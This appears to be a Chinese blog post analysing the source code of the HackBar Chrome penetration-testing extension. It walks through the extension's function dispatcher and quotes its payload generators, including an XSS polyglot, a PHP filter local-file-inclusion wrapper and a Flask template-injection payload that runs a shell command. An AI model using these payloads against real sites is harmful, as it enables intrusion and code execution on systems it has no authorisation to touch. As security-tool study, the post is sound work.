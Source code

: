 ```yaml
---
layout: post
title: "读工具之HACKBAR（下篇）"
subtitle: "WTF about HACKBAR"
author: "Rand0m ^ Novocaine#p1an0@qq.com"
header-img: "img/post-bg-dreamer.jpg"
header-mask: 0.4
tags:
  - javascript
  - ChromeExt
---
```


0x01 序
--
- 一直很敬仰某师傅，反复看了某师傅的带我读神器系列，发现阅读这些代码可以学习作者赋予工具的灵魂及对安全的理解，所以以后会有读神器甚至二开系列。
- 学习一些复杂的功能实现
- 先从简单的工具开始读，然后慢慢地解剖巨人的肩膀。

0x02 接上篇
--

还剩下其他模块，代码太串了，感觉二开也是个力气活QAQ

后面除了mysql的语句生成以外，都使用了applyFunction动态调用，这里只分析一次applyFunction，我在关键行后面加了中文注释方便理解

```javascript
      applyFunction: function (func, insertWhenNoSelection = false, argument = undefined) {
        func = this.getNamespaceByPath(func, window, true) //获取函数命名空间

        if (this.domFocusedInput === null) {
          return
        }

	//取输入框的东西
        let startIndex = this.domFocusedInput.selectionStart 
        let endIndex = this.domFocusedInput.selectionEnd
        const textSelected = (endIndex - startIndex !== 0)
        const inputText = this.domFocusedInput.value
...
 try {
          processed = func.namespace[func.name](argument) //函数调用
        } catch (error) {
          this.snackbar.text = error.message
          this.snackbar.show = true
        }

document.execCommand('insertText', false, processed)  //把结果扔到输入框

```

### Sqli:

pyload都在/scripts/lib/payload.js中
重复的东西太多，先不看了

### xss
```javascript
//核心就这些 payload.js
window.Payload.XSS = {
  polyglot: value => "jaVasCript:/*-/*`/*\\`/*'/*\"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>\\x3e"
}
```

### LFI
```javascript
//核心就这些 payload.js
window.Payload.LFI = {
  phpWrapperBas64: value => 'php://filter/convert.base64-encode/resource=' + value
}
```

### SSTI
```javascript
payload.js
window.Payload.SSTI = {
  flaskRCE: value => {
    // Reference: https://twitter.com/realgam3/status/1184747565415358469
    return "{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}"
  }
```

以上是生产Payload的地方，值得一提的是我们想要二开可以直接在下面添加payload，模仿index.html的写法就可以添加模块。

### EN/DECODING

方法写在了lib/encode.js和hash.js
大多都是用CryptoJS.enc插件实现的,在二开我会尝试把base64变成自定义密钥的形式

0x03 总结
--
Hackbar在渗透过程中的确是一件趁手的兵器,感觉chrome这个插件的作者同样也是二开的,因为基础功能代码风格明显和后面的功能不太一样,下面是我想给它打造的新功能:
 - 字符fuzz 
 - base64换密钥编解码(保留原功能)
 - 更多的payload生成
   - 一句话木马
   - 各种反弹shell指令
   - 各种 Ndays的payload等
